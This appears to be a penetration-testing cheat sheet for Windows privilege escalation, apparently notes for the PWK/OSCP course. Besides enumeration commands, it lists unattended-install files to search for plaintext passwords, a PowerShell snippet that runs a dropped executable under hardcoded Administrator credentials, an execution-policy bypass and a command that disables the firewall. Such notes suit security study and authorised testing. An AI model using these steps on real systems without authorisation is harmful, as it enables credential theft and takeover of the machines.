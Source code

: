 
###

Check if MS10-015 applies to host:
https://www.exploit-db.com/exploits/11199/

### Key Directories and Files

Check for the existance of these files, they often contain plain text passwords

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```

#### What OS is the target running:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

#### Hostname
`hostname`

`echo %hostname%`

#### List users on the local machine and query specific username
`net users`

`net user bob`


#### View Network Interfaces and Routing Table
`ipconfig /all`

`route print`

`arp -A`

#### Active Network Connections and Firewall Rules

`netstat -ano`

`netsh firewall show state`

`netsh firewall show config`

#### Running Processes and Scheduled Tasks

`schtasks /query /fo LIST /v`

`tasklist /SVC`

`net start`

`DRIVERQUERY`

`sc query type= service`

`sc qc <SERVICE NAME>`
  
  
`wmic useraccount where name='robert' get sid`


## Services Permissions

Write access (w)
surpress errors (u)
verbose (v)
Omit banner (q)
Specify name of service (c) - * indicates wildcard
Only process directories or top level keys (d)

`accesschk.exe -uwdqs Users c:\ /accepteula`

`accesschk.exe -uwcqv "Authenticated Users" * /accepteula`



## Powershell Exploit (Page 360 in PWK)

```
$secpasswd = ConvertTo-SecureString "sup3r53cr3tGP0pa55" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",
$secpasswd)
$computer = "DEV01"
[System.Diagnostics.Process]::Start("C:\Windows\temp\dabbb118.exe","",
$mycreds.Username, $mycreds.Password, $computer)
```

Run this:

> powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1


### Other Useful Commands

> netsh firewall set opmode mode=DISABLE


### Check for AlwaysInstalledElevated 

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
